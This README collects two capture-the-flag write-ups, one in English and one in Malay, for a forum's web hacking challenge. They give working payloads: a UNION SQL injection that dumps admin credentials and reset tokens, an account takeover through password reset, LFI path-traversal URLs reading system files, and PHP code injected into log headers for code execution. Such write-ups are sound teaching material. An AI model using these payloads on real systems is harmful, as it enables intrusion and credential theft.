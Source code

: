 # TBD.My Web Hacking Challenge
Source code for TBD.My Web Challenge. https://forum.tbd.my/topic/13479/tbd-challenge-advance-web-hacking

# Write Up by @arith

Step 1: 

SQL injection

`http://tbd-challange.rz.my/post.php?id=0%20union%20select%201,2,group_concat%28username,password,email,token%29,4%20from%20tbl_admin`

Then, login, if cannot u can reset password using token.

Step 2:
Local File Inclusion

But where is the admin login? Basic!!! robots.txt

`http://tbd-challange.rz.my/4dm1nz/index.php?page=LFI PAYLOAD`

1) read apache2.conf

`http://tbd-challange.rz.my/4dm1nz/index.php?page=../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf`

2) read custom error logger

- `http://tbd-challange.rz.my/4dm1nz/index.php?page=../../../../../../../../../../../../../../../../../usr/sbin/apache-error-logger.sh`

- `http://tbd-challange.rz.my/4dm1nz/index.php?page=../../../../../../../../../../../../../../../../../var/www/html/logs/error_2016-05-25-175.139.36.132.log`

Notice that if page ERROR, there will be referer.

Step 3:
Inject payload on the referer and load the log using LFI.

`http://tbd-challange.rz.my/aaa.php`

with

`Referer:<?php $dir    = '/var/www/html'; $files = scandir($dir); print_r($files);?>`

Step 4:
Load the log again and w00t..
`http://tbd-challange.rz.my/4dm1nz/index.php?page=../../../../../../../../../../../../../../../../../var/www/html/logs/error_2016-05-25-175.139.36.132.log`

`[Thu May 26 09:53:26.439970 2016] [:error] [pid 5736] [client 175.139.36.132:51459] script '/var/www/html/aaa.php' not found or unable to stat, referer: Array ( [0] => . [1] => .. [2] => .flag1z2ez4u [3] => .htaccess [4] => 4dm1nz [5] => LICENSE [6] => README.md [7] => about.php [8] => b3nd3r4ch411 [9] => bbcode.php [10] => config.php [11] => contact.php [12] => css [13] => fonts [14] => img [15] => index.php [16] => init.php [17] => js [18] => less [19] => logs [20] => mail [21] => noscanner.txt [22] => post.php [23] => robots.txt [24] => upfile ) `

Final step:
`http://tbd-challange.rz.my/.flag1z2ez4u`


# Write Up @akmalhisyam 

https://dl.dropboxusercontent.com/u/28476597/writeup_rempah.html

- Dari initial jalan-jalan, ada SQL injection kat `post.php?id=`
```
http://tbd-challenge.rz.my/post.php?id=47%27

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1
```

- Dari robots.txt, kita dapat tau admin page ada kat /4dm1nz
```
User-agent: *
Disallow: /
Disallow: /4dm1nz
Disallow: /mail
Disallow: /b3nd3r4ch411

# Penafian
# Web Ini dicipta untuk TBD.My Challenge.
# URL: https://forum.tbd.my/topic/13479/tbd-challenge-advance-web-hacking
# Good Luck :)
# - Rempah
```
- Bila bukak http://tbd-challenge.rz.my/4dm1nz/ kita akan jumpa satu login form as expected.
- Tapi kita tak tau login.
- Kat page ni ada feature untuk reset password (http://tbd-challenge.rz.my/4dm1nz/forgot-password.php) dan verify token (http://tbd-challenge.rz.my/4dm1nz/forgot-password.php?action=verify) untuk reset password
- So kita boleh reset password, dan dapatkan token dari DB melalui SQL injection
  1. Pergi page reset password
  2. Masukkan username admin
  3. SQLI - `http://tbd-challenge.rz.my/post.php?id=-27%20union%20select%20all%201,2,group_concat(token),4%20%20from%20tbl_admin%20where%20id=1--`
  4. Pergi page verify token, masukkan username, token dan new password
- Login guna password baru tadi
- Hasil dari jalan-jalan di page admin, sebuah LFI telah ditemui `http://tbd-challenge.rz.my/4dm1nz/index.php?page=../../../../../../etc/passwd`
  - Cubaan untuk view config.php gagal kerana PHP pada page tersebut di-execute instead of displayed. Sigh
- Daripada file `/etc/apache2/sites-enabled/000-default.conf` kita dapat tau apache guna custom scripts untuk logging; `/usr/sbin/apache-error-logger.sh` dan `/usr/sbin/apache-access-logger.sh`
- Kedua-dua skrip ni akan log error dan acces ke dalam file `/var/www/html/logs/{error|access}_$IP.log
Kalau kita tengok dalam kita punya access log`, kita akan dapati maklumat yang di-log ialah IP, tarikh-masa, URL dan juga user-agent
- Oleh kerana user agent adalah input yang boleh dikawal oleh user, ini bermakna kita boleh letakkan kod PHP dan gunakan LFI tadi untuk execute!
- Mari kita test
  1. Ubah user agent menjadi `<?php phpinfo(); ?>`
  2. Browse satu page. Saya guna `http://tbd-challenge.rz.my/css/clean-blog.min.css` sebab ini adalah single 'page' untuk mengelakkan 'semak' dalam log.
  3. View log guna LFI. eg `http://tbd-challenge.rz.my/4dm1nz/index.php?page=../../../../../../var/www/html/logs/access_124.211.219.193.log`
  4. Kita akan dapati phpinfo terpapar
- Cubaan untuk menggunakan `system()`/`exec()`/`passthru()` untuk run ls gagal kerana ia telah di-disable-kan (rujuk error_IP.log)
- Jadi saya cuba menggunakan `glob()`.` <?php foreach(glob('*')as$a){echo $a;echo "\n";} ?>` dan berjaya!
```
124.211.219.193 - - [29/May/2016:04:41:44 -0400] "GET /4dm1nz/plugins/bootstrap-wysihtml5/bootstrap3-wysihtml5.all.min.js HTTP/1.1" 200 57056 "http://tbd-challenge.rz.my/4dm1nz/index.php?page=../../../../../../var/www/html/logs/access_124.211.219.193.log" "bootstrap
dist
forgot-password.php
index.php
init.php
login.php
logout.php
pages
plugins
"
```

- Setelah jauh menjelajah sehingga ke `../../../backups`, saya masih tidak menemui apa-apa.
- Kemudian baru saya perasan, glob tidak menyenaraikan .htaccess di `../` walaupun ia wujud. Ini bermakna ia tidak menyenaraikan hidden files by default!
- Kemudian saya cuba listkan lagi sekali `../` menggunakan `<?php foreach(glob('../.*')as$a){echo $a;echo "\n";} ?>`

```
124.211.219.193 - - [29/May/2016:05:49:24 -0400] "GET /css/clean-blog.min.css HTTP/1.1" 200 2119 "-" "../.
../..
../.flag1z2ez4u
../.htaccess
"
```

- Bukak http://tbd-challenge.rz.my/.flag1z2ez4u
`flag:{86552b2996b2a6ed0f5c8e345eaf074c}`
